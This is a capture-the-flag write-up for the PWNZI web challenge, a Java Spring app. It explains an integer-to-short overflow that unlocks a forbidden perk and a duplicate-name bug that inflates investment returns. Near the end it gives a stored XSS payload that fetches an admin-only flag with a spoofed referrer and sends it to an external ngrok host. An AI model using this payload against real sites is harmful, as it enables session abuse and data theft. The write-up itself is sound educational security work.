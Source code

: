 
# PWNZI

![entry](entry.png)

Opening up the challenge, the first thing I see in the source is a link to jar file
https://pwnzi.ctf.spamandhex.com/pwnzi.jar

Decompiled using `Procyon` we get the complete source of the backend. It was a java application running on Spring Framework.

## FLAG #1

So the premise of the application was simple, you get 800,000$ to start. You also have options to buy certain perks if you meet the criteria of expected interests from your investments.
```
For 100,000$ you can buy the perk to upload images
For 1,300,000$ you can buy the perk to upload any content
For 1,400,000$ you can buy the perk to view flag1
```

The file `hu.spamandhex.pwnzi.PwnziController.java` contained most of the application logic.
However looking at the code of `/claim-perk` route

```
        if (user.hasPerk(perk)) {
            throw new PwnziException("perk already credited");
        }
        if (perk == Perks.FLAG) {
            throw new PwnziException("sry, you have to work a bit harder for the flag");
        }
```

It became clear even if you have 1,400,000$ you wouldn't get the flag.

So I started looking around the logic of how perks were stored and alloted.

```
    // data/User.java
    
    private short perks;
    
    public boolean hasPerk(final int perk) {
        return (this.perks & 1 << perk) != 0x0;
    }
    
    public void addPerk(final int perk) {
        this.perks |= (short)(1 << perk);
    }
 ```
 
 Simplyfing the above, it was a simple bit positioned flags.
 Eg. The bit at 1st index (from 0) would tell you if you had the perk 1.
 The Perk flag had the value 14 so to have that perk 14th bit index needed to 1 ie `perk = 0b100000000000000`
 
 So we needed to set the 14th bit without actually requesting the perk 14 which was not allowed.
 
 The vulnerability was in the `(short)` integer-to-short casting. As an integer can take much larger values, anything that does not fit in 2 bytes would overflow.
 
 So here is a quick script I wrote to test if any other perk would set the 14th bit after overflowing.
 
```
for(int i=1;i<100;i++){
    short newperk = (short)(1 << i);
    if((newperk & 1 << 14) != 0){
            System.out.println("int : " + i);
    }
}
```

Output
```
int : 14
int : 46
int : 78
```

So if I claim 46 perk, it would overflow and give me the perk 14.
So now I needed investment interests returns of 4,600,000.

On the investment page, the max possible return could be achieved if we do 8 investments of 100,000 each with each investment containing one children and so on.
```
A -> B -> C -> D -> E -> F -> G -> H
```
This will give us max legitimate investment returns as the code calculates investments of each children in its parent as welll.
This gave me `1377565.63 $` return, enough to buy unrestricted upload perk but not perk 46.

Looking at the file upload code, hoping to find some vulnerability I found out that it actually does not store uploaded content as files on disk, rather it stores them in a database.
So there was nothing to look further.

Back to the investment code, I saw that the investments and their parent children relationship were actually tracked by just their name
by using the function `findByOwnerAndName`, so there could be someway to fool the expected interest logic.

And it turned out to be very simple.
First add multiple root investments of the same name.

![investment](investment.png)

Now if you add one investment child to any one, you'll notice the investment being replicated to all the root investments without spending the money.

![investment_bug](investment_bug.png)

So now using this hack the maximum return you can get by replicating childs is just a little above 4,600,000. Exactly what you need.
No go and claim `/claim-perm?perk=46` and enjoy the flag.

## FLAG #2,3

Now the route '/flag2' and '/flag3' had similar logic

```
this.checkRefererIsProfilePage(request);
final User user = this.currentUser(session);
final String t = this.isAdmin(user) ? this.config.getFlag2() : "only admin can see this";
return (ResponseEntity<String>)ResponseEntity.ok((Object)t);
```

This was a classic XSS - adminbot type of chal.
We need to find a XSS and report it to admin, admin will visit the page triggering our js payload and giving us the flag.

Now this turned out to be very very easy, I did not understand how it had such few solves and certain teams only managing to solve one because the exploit for both was exactly the same.


On the profile page, claim the perk of unrestricted file upload. We have more than 4600,000.
Now the logic to view a file was this

```
    @GetMapping({ "/files-{userUuid}-{fileName}" })
    public ResponseEntity<byte[]> getFile(@PathVariable("userUuid") final String userUuid, @PathVariable("fileName") final String fileName) {
        return (ResponseEntity<byte[]>)
          this.users.findByUuid(userUuid)
          .flatMap(user -> this.files.findByOwnerAndName(user, fileName))
          .map(file -> ResponseEntity.ok()
          .contentType(MediaType.parseMediaType(file.getContentType()))
          .body((Object)file.getContent())).orElseGet(() -> ResponseEntity.notFound().build());
    }
```
So this sent the file in with its orignal mime type. So we can just upload a html page and we have xss.

Now we need to fetch the `/flag2` endpoint from javascript, but the catch is its referrer must be the `/profile` page.
This is very simple, just set the referrer manually.

At this point I thought surely outbound requests must be blocked and the challenge would be to do so tricky exfilteration but no, a simple fetch worked.

```
<script>
function myFunction() {
  fetch("/flag2",{referrer:"https://pwnzi.ctf.spamandhex.com/profile.html"}).then(resp => resp.text()).then(text => {
        fetch("https://e979154e.ngrok.io/flag="+btoa(text));
  });
}

window.onload = myFunction;
</script>

```

Worked for /flag3 as well. Super easy.


